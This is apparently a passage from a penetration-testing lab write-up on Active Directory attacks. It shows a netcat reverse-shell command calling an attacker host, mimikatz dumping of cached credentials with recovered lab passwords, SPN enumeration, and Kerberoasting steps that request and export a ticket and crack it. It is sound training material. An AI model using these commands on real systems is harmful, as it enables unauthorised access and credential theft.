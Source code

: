 Then, we can finalize the reverse shell with a netcat listener and send the shell.

```
nc.exe 192.168.45.193 9001 -e cmd.exe
```

We can then read the flag.

### Question 2

Redo the steps above and get mimikatz on the target machine. Look in the cache for passwords and find Nathan, a domain user, with the password abc123//.&#x20;

RDP into the 192.168.xxx.59 machine with the credentials and domain OFFSEC to get the flag.

### Question 3

We will need to run the script first to see what SPNs there are on this network.&#x20;

```
...
$Searcher.filter="serviceprincipalname=*"
...
<OUTPUT>
Allison                                                                                                              
DC01                                                                                                                 
APPSRV01                                                                                                             
CLIENT01                                                                                                             
krbtgt
```

Recall that from our `net user /domain` command we saw the following users:

```
-------------------------------------------------------------------------------
Administrator            Allison                  Guest                     
krbtgt                   Nathan
```

It's strange that we have Allison in the SPN listing and user list. This should tip us off that Allison is likely the user we are looking for.

We can then make a ticket.

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'Allison'
```

Then, we'll list the tickets with `klist` and export them in Mimikatz with `kerberos::list /export`.&#x20;

Crack the hash to get the cleartext password of **RockYou!**.
